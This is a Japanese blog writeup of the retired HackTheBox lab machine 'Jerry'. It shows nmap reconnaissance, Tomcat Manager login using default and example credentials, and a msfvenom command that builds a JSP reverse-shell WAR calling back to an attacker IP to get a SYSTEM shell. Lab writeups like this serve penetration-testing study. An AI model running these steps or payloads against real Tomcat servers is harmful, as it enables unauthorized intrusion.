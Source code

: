 ```yaml
---
title: 【Easy/Windows】Jerry Writeup(HackTheBox)
date: "2022-07-30"
template: "post"
draft: false
slug: "hackthebox-windows-jerry"
category: "HackTheBox"
tags:
  - "HackTheBox"
  - "Windows"
  - "EasyBox"
description: "HackTheBoxのリタイアマシン「Jerry」のWriteUpです。"
socialImage: "/media/cards/no-image.png"

---
```


「Hack The Box」という、ペネトレーションテストの学習プラットフォームを利用してセキュリティについて学んでいます。
「Hack The Box」のランクは、本記事執筆時点でProHackerです。

<img src="../../static/media/2022-07-30-hackthebox-windows-jerry/327080.png" alt="Hack The Box">

今回は、HackTheBoxのリタイアマシン「Jerry」のWriteUpです。

<!-- omit in toc -->
## 本記事について

**本記事の内容は社会秩序に反する行為を推奨することを目的としたものではございません。**

自身の所有する環境、もしくは許可された環境以外への攻撃の試行は、「不正アクセス行為の禁止等に関する法律（不正アクセス禁止法）」に違反する可能性があること、予めご留意ください。

またすべての発言は所属団体ではなく個人に帰属します。

<!-- omit in toc -->
## もくじ
- [探索](#探索)
- [侵入](#侵入)
- [まとめ](#まとめ)

## 探索

とりあえずいつも通りポートスキャンをかけます。

``` bash
$ sudo sed -i 's/^[0-9].*targethost.htb/10.10.10.95 targethost.htb/g' /etc/hosts
$ nmap -sV -sC -T4 targethost.htb| tee nmap1.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-31 05:46 PDT
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 2.26 seconds
```

ホストが立ち上がっていないと誤認?されていたので-Pnオプションを付けた結果、8080ポートが動いていることがわかりました。

``` bash
$ nmap -sV -sC -Pn -T4 targethost.htb| tee nmap1.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-31 05:46 PDT
Nmap scan report for targethost.htb (10.10.10.95)
Host is up (0.23s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.08 seconds
```

アクセスすると`Apache Tomcat/7.0.88`が動いていることがわかります。

![image-20220731214938781](../../static/media/2022-07-30-hackthebox-windows-jerry/image-20220731214938781.png)

脆弱性を探すために[Apache Tomcat 7 vulnerabilities](https://tomcat.apache.org/security-7.html#Fixed_in_Apache_Tomcat_7.0.109)のリリースノートを読んでいきます。

ここで、CVE-2019-0232というRCEの脆弱性を見つけましたが、残念ながらVictimには`cgi/ism.bat`が存在しないようで、エクスプロイトが利用できませんでした。

![image-20220731220827410](../../static/media/2022-07-30-hackthebox-windows-jerry/image-20220731220827410.png)

続いて見つけた脆弱性は`CNVD-2020-10487(CVE-2020-1938)`でしたが、どうやらこれもajp13のポートがフィルタされているようで動作しなさそうでした。

``` bash
$ nmap -sV -sC -T4 -Pn -p 8009 targethost.htb
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-31 06:35 PDT
Nmap scan report for targethost.htb (10.10.10.95)
Host is up.

PORT     STATE    SERVICE VERSION
8009/tcp filtered ajp13
```

というわけで他の穴を探していきます。

ManagerAppという認証が必要なページがありました。

Tomcatのデフォルトのクレデンシャルは、adminとブランクパスワードとのことでしたが、これは動作しませんでした。

![image-20220801083425426](../../static/media/2022-07-30-hackthebox-windows-jerry/image-20220801083425426.png)

ユーザ名をadminにして辞書攻撃を行ったところ、パスワードもadminで開けることがわかりました。

![image-20220731232257018](../../static/media/2022-07-30-hackthebox-windows-jerry/image-20220731232257018.png)

ログインには成功したものの権限がなさそうです。

![image-20220801083557346](../../static/media/2022-07-30-hackthebox-windows-jerry/image-20220801083557346.png)

そこで、このページのExampleに記載のtomcat/s3cretというクレデンシャルを試してみたところ、ManagerAppにログインできました。

![image-20220801083738285](../../static/media/2022-07-30-hackthebox-windows-jerry/image-20220801083738285.png)

## 侵入

とりあえずManagerAppに侵入できたのでエクスプロイトの方法を探していきます。

以下の記事を見ると、WARファイルをアップロードすることでリバースシェルが取得できるようです。

参考：[Multiple Ways to Exploit Tomcat Manager - Hacking Articles](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/)

というわけで、以下のコマンドでペイロードを作成しました。

``` bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.4 LPORT=4444 -f war > shell.war
```

これでブラウザから`10.10.10.95:8080/shell`にアクセスすると、system権限のシェルが取れました。

## まとめ

パスワード系はブルートフォースの前に手動で試すパターンを作っておいた方が早そう。
